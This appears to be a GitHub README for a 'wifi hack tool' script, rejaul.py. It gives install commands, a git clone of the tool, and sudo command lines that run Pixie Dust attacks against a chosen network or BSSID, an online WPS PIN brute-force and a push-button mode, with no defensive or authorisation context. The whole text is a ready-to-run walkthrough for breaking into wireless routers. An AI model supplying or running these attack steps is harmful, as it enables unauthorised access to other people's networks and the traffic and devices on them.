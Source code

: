<!--- mark down --->
---
# wifi hack tool all run to rejaul.py
---

``` pkg install -y root-repo ```

``` pkg install -y git tsu python wpa-supplicant pixiewps iw ```

## github link:-

    git clone https://github.com/princeicon2712/rejaul2712.git

``` $ cd rejaul2712 ```

``` $ chmod +x * ```

``` $ python rejaul.py -h ```

## plz' go to HOME

   Example : sudo python rejaul2712/rejaul.py -i wlan0 -K ```


# Note:

## First turn off your Wifi.

### Show avaliable networks and start Pixie Dust attack on a specified network.

``` sudo python rejaul.py -i wlan0 -K ```

### Start Pixie Dust attack on a specified BSSID: 

``` sudo python rejaul.py -i wlan0 -b 00:91:4C:C3:AC:28 -K ```

### Launch online WPS bruteforce with the specified first half of the PIN:

``` sudo python rejaul.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234 ```

## wps router push button:

``` sudo python rejaul1.py -i wlan0 --pbc ```

### Troubleshooting

### "Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.

<!--[profile](./rejaul.jpg)-->
<img src="rejaul.jpg" width="600"/>
